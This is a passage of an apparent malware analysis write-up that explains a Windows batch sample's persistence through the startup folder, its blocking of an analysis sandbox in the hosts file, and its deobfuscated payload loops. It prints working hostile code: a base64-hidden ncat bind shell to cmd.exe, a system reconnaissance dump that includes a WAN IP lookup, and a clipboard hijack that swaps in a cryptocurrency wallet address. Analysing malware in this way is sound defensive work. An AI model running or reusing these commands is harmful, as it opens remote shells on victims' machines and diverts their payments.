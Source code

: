 ```bash
echo 127.0.0.1 joesandbox.com>>Hosts
```

### Confirming "Startup\Service.cmd" artifact
![image tooltip here](/images/img23.png)

#### Conclusion:
* Copies filles from temp file to "windir\system32\"
* Achieves persistence by placing service.cmd on startup folder
* Prevents updates and analysis tool access by setting localhost to host file.

### Analysis of deobfuscated ":loop"
```bash
cd tempset "string6=bmNhdCAtLXNzbCAtbHZwIDUxNTAwIC1lIGNtZC5leGU="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string6"""^)^)') do 
set "decoded6=i"
powershell cmd /c start /b decoded6 >nul
timeout /t 3 >nul
goto 3
```
Decoded base64 strings:
```bash
ncat --ssl -lvp 51500 -e cmd.exe
```

#### Conclusion:
* Binds a shell listening on port 51500 with verbose and using SSL to cmd

### Analysis of deobfuscated ":3"
```bash
cd temp
echo host *localhost*>>nt.txttimeout /t 1 >nul
echo :: -------- ipconfig --------- :: > temp\info.dat
ipconfig/all >> temp\info.dat
echo :: -------- EnD --------- :: >> temp\info.dat
echo :: -------- netbios --------- :: >> temp\info.dat
nbtstat -n >> temp\info.dat
echo :: -------- EnD --------- :: >> temp\info.dat
echo :: -------- netstat --------- :: >> temp\info.dat
netstat -ano >> temp\info.dat
echo :: -------- EnD --------- :: >> temp\info.dat
echo :: -------- tasklist --------- :: >> temp\info.dat
tasklist >> temp\info.dat
echo :: -------- EnD --------- :: >> temp\info.dat
echo :: -------- systeminfo --------- :: >> temp\info.dat
systeminfo >> temp\info.dat
echo :: -------- EnD --------- :: >> temp\info.dat
echo :: -------- WAN IP --------- :: >> temp\info.dat
curl ifconfig.me >> temp\info.dat
echo :: -------- EnD --------- :: >> temp\info.dat
echo :: -------- CLI Steal --- :: >> temp\steal.dat
:: start /b powershell -sta "add-type -as System.Windows.Forms; [windows.forms.clipboard]::GetText()">>steal.dat
echo :: -------- EnD --------- :: >> temp\steal.dat:: 
start /b powershell -sta "add-type -as System.Windows.Forms; [windows.forms.clipboard]::SetText(\"45DuNAsJYBC2Eok3nuY9fodoTTb3Kq33k33oDafnVS5VEPmfeneCtRqZT7pgvw9cMjfgcZYUQvipQMHoaV5jmkeTUJ8e8tj\")"
```